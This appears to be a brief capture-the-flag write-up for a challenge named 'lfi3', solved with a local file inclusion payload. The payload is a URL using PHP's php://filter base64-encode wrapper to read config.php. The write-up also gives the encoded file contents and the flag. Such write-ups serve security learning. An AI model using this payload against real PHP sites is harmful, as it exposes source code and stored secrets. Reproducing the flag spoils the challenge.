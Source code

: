 # lfi3

## What it is

Almost the same as lfi1, but we don't have access to the source code.

## Solution

The solution is the same as for lfi1, except that the input given is concatenated with '.php'

Url: 
```
https://extprotect.secu-web.blackfoot.dev/?lang=php://filter/convert.base64-encode/resource=config
```

Base64 config.php:
```
PD9waHAKICAvLyBDb25ncmF0eiAhIEZMQUcgSVMgWk9CezN2M25fcHIwdF9jNG43X3N0MHBfbTN9Cj8+Cg== 
```

flag: ```ZOB{3v3n_pr0t_c4n7_st0p_m3}```
